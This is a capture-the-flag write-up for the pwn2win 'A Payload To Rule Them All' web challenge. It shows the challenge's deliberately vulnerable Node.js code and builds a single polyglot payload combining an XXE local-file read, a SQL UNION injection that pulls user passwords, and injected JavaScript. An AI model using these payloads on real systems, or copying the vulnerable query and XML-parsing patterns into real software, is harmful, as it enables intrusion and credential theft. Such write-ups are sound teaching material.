 ```yaml
---
title: "pwn2win: A Payload To Rule Them All"
date: 2020-06-08
tags: [web]
draft: false
---
```

This one gives us a post endpoint for a payload that needs to exploit xxe, xss,
and sqli (sql injection), as well as the code for the server.

```server.js
const express = require("express")
const app = express()
const bodyParser = require("body-parser")
const port = 31337
const { execFile } = require("child_process")
const fs = require("fs")
const rateLimit = require("express-rate-limit");
app.use(express.static("static"))
app.use(bodyParser.urlencoded({ extended: true }))
const limiter = rateLimit({ windowMs: 10 * 60 * 1000, max: 50 });
// 15 minutes  // limit each IP to 100 requests per windowMs 
app.use('/', limiter);
app.post('/', (req, res) => {
    const test_payload = execFile("/usr/sbin/gosu", ["gnx", "/home/gnx/script/test_payload.js",
        req.body.payload], (error, stdout, stderr) => {
            if (stdout.toString().trim() === "parabens hackudo") {
                res.send(process.env.FLAG)
            } else { 
                res.send("nope") 
            }
        }); 
        console.log(req.body.payload)
})
app.get('/source', (req, res) => {
    var out = "/usr/src/app/index.js :\n\n" +
        fs.readFileSync("/usr/src/app/index.js").toString() +
        "\n\n"
    out += "/home/gnx/script/test_payload.js :\n\n" +
        fs.readFileSync("/home/gnx/script/test_payload.js") +
        "\n\n"
    res.send(out)
})

app.listen(port, '0.0.0.0', () => console.log(`Chall rodando em http://localhost:${port}`))
```

as well as the `test_payload.js` referenced above:

```test_payload.js
#!/usr/bin /env node
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")

function test_xxe(payload) {
    try {
        var my_secret = Math.random().toString(36).substring(2);
        fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
        var doc = libxml.parseXml(payload, { noent: true, nonet: true })
        return doc.toString().includes(my_secret)
    } catch (e) { return false }
}

async function test_xss(payload) {
    try {
        const browser = await puppeteer.launch({
            args: ['--no-sandbox', '--disable-setuid-sandbox', '--disable-dev-shm-usage', '--disable-accelerated-2d-canvas', '--no-first-run', '--no-zygote', '--single-process', '--disable-gpu']
        })
        const page = await browser.newPage()
        page.setDefaultNavigationTimeout(1000);
        payload = sanitizeHtml(payload, { allowedTags: [] })
        await page.goto(`data:text/html,<script>${payload}</script>`)
        const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )")
        // vlw herrera
        await browser.close()
        return check
    } catch (error) {
        console.error(error)
    }
}

async function test_sqli(payload) {
    var connection = mysql.createConnection({
        host: process.env.MYSQL_HOST || "127.0.0.1",
        user: process.env.MYSQL_USER,
        password: process.env.MYSQL_PASSWORD,
        database: process.env.MYSQL_DATABASE,
        charset: 'utf8',
        dialectOptions: { collate: 'utf8_general_ci', },
    })
    const query = util.promisify(connection.query).bind(connection)
    connection.connect()
    const users = await query("SELECT * from users")
    try {
        const sqli = await query(`SELECT * from posts where id='${payload}'`)
        await connection.end()
        return JSON.stringify(sqli).includes(users[0]["password"])
    } catch (e) {
        return false
    }
}

function main(args) {
    var xss = test_xss(args[0])
    var sqli = test_sqli(args[0])
    var xxe = test_xxe(args[0])
    Promise.all([xss, sqli]).then(function (values) {
        if (values[0] && values[1] && xxe) {
            console.log("parabens hackudo")
        } else {
            console.log("hack harder")
        }
        process.exit(0)
    })
}
main(process.argv.slice(2))
```

I realized I'd need something that parsed as valid js, valid sqli, and valid
xml, to some extent, which was the hardest part of the puzzle.

The xml attack was pretty easy to test locally and pretty easy to come up with.
As simple as this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
```

Next, getting some validly parsing sql by ending the quote, and tacking
a comment on the end with `#`:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
<!--' union select password from users limit 1;#-->
```

It was a bit of a struggle to get the js to work (need to inject `xss=true;`), even with the assist of
sanitize-html. The sanitize-html call basically stripped out all of the xml 
and comments, which was mostly helpful, so something like this almost works:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>;xss=true;//&xxe;</r>
<!--' union select password from users limit 1;#-->
```

But you end up with something like: `]>;xss=true;//&xxe;` and the `];` doesn't
run.

I spent a while struggling with this piece, until a teammate suggested trying
another entity to inject a comment around the garbage:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password from users;#-->
```

And the last piece was figuring out how many columns was in the posts table, so
we could match the union injection--took a few tries, but I just tacked on `,1`
until it ran and gave the flag. I think it was 4 columns, but don't remember at
this point. The `limit 1` isn't necessary but it seemed kind not to pull in the whole
table cartesian product ;) --the result was something like this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password, 1, 1, 1 from users limit 1;#-->
```

Note: it needs to be all one one line, but I broke it up for visibility.
